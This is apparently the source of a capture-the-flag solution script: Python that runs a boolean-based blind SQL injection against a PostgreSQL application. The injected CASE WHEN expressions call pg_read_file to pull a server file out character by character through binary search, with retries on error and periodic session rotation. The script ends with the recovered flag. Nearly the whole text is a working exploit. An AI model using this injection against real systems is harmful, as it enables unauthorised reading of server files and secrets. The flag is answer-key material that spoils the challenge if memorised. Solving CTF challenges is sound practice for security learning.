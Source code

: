 ```python

BL_NAME  = get_names("name")
BL_BREED = get_names("breed")
print("baseline:", BL_NAME[:2], "|", BL_BREED[:2])

def is_true(case_when_expr):
    names = get_names(case_when_expr)
    return bool(names) and bool(BL_NAME) and names[0] == BL_NAME[0]

check_end = ("CASE WHEN ((SELECT strpos(trim(pg_read_file('%s',0,8192,true)),'}'))=38) "
             "THEN name ELSE breed END") % FILE
START_POS = 5
KNOWN_PREFIX = "ENO{"

flag = list(KNOWN_PREFIX) if START_POS > 1 else []
for pos in range(START_POS, 39):
    lo, hi = 32, 126
    while lo < hi:
        mid = (lo + hi + 1) // 2
        cond = (
            "CASE WHEN ("
            f"(SELECT ascii(substr(trim(pg_read_file('{FILE}',0,8192,true)),{pos},1)))>={mid}"
            ") THEN name ELSE breed END"
        )
        try:
            if is_true(cond):
                lo = mid
            else:
                hi = mid - 1
        except Exception as e:
            time.sleep(1.0 + random.random()*0.5)
            continue
    ch = chr(lo)
    flag.append(ch)
    print(f"[pos={pos:02d}] {ch}  |  {''.join(flag)}")
    if pos % 5 == 0:
        s = new_session()
    if ch == "}":
        break

print("\nFLAG =>", "".join(flag))# ENO{CuT3_D0GG0S_T0_F1nD_Ev3r1Wh3re_<3}
```
